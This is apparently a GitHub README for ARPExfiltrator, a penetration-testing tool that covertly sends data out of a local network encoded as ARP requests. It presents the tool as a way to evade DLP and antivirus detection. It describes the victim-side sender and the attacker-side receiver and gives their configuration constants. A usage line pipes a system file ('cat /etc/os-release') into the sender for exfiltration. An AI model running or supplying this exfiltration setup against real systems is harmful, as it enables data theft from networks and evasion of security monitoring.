


# ARPExfiltrator
 

  

## What is

Based on [Cloakify](https://github.com/TryCatchHCF/Cloakify)(presented during the ```DefCon24```), allows the data transfer through the ARP protocol in local networks. Using ARPExfiltrator is possible to evade DLP/MLS Devices and AV Detection systems. To compose, send and receive ARP requests the ```root``` permission is required.

## When use it

There are a lot of tools used to exfiltrate data that use various protocol to hide the data transition, like DNSExfiltration. In my experience, I try to exfiltrate data from a server during an on-site penetration testing using the DNS protocol, but after 1 minute of download I received a phone call from the IT department: ```What do you do on the server? Why it sends a lot of DNS resolution request to inexistent domains?```

## Dependency
- tcpdump

## How it works

The project is composed with two parts: the ```sender``` that runs on the victim machine, and the ```receiver``` that runs on the attacker machine.
The ```sender``` encode the string buffer using the base64 alghorithm and sends each letter of the encoded string as network IPv4 address. The ```receiver``` match each letter with a shared list of IPv4 address and decode the received base64 encoded string.

## Usage Example

### Attacker side

Configure the BPF(Berkeley packet filter) and network interface costants to receive only the ARP request that come from the victim machine. Below a configuration example:

```
__VICTIM_IPV4_ADDRESS__ = "192.168.56.113"
__NETWORK_INTERFACE__ = "vboxnet0"
```

Starts the receiver with ```./receiver.py```

### Victim side
Configure the ```__ARP_PROTO_SOURCE_ADDRESS__``` with the IPv4 address and ```__SOCKET_BIND_INTERFACE__``` with the name of interface where the IP address is binded. Below a configuration example:

```
__ETH_PROTO_TYPE__ = 0x0806
__ARP_HARDWARE_TYPE__ = 0x01 # Ethernet Type
__ARP_PROTOCOL_TYPE__ = 0x0800 # TCP TYPE
__ARP_HARDWARE_ADDRESS_SIZE__ = 0x06 # MAC Address Size
__ARP_PROTOCOL_ADDRESS_SIZE__ = 0x04 # Ipv4 Address Size
__ARP_OP_CODE__ = 0x01 # ARP Request Operation Code
__ARP_HW_SOURCE_ADDRESS__ = '08:00:27:10:f8:e7'
__ARP_PROTO_SOURCE_ADDRESS__ = '192.168.56.113'
__ARP_HW_DST_ADDRESS__ = '00:00:00:00:00:00'
__SOCKET_PROTO_TYPE__ = 0x0003 # Gateway-Gateway Protocol. See /etc/protocol to more details.
__SOCKET_BIND_INTERFACE__ = 'enp0s8'
```

Send a packet with ```cat /etc/os-release | ./sender.py``` for example

Below an example of data exfiltration using ARPExfiltrator




## Tips

Sometimes you need to use your custom IPv4 list. Inside the ```libs/ipAddresses``` you can find the list that I used in my last penetration testing experience. To genenerate a custom dictionary of IPv4 you can use a tool named ```prips```.
Example:
```
$: prips 192.168.5.1 192.168.5.254
192.168.5.1
192.168.5.2
192.168.5.3
192.168.5.4
192.168.5.5
192.168.5.6
192.168.5.7
192.168.5.8
192.168.5.9
192.168.5.10
192.168.5.11
192.168.5.12
192.168.5.13
192.168.5.14
192.168.5.15
192.168.5.16
192.168.5.17
192.168.5.18
192.168.5.19
192.168.5.20
192.168.5.21
192.168.5.22
192.168.5.23
....
192.168.5.254
```
## Evolutions:

- C&C function
- Increase performance using the other ARP Header fields


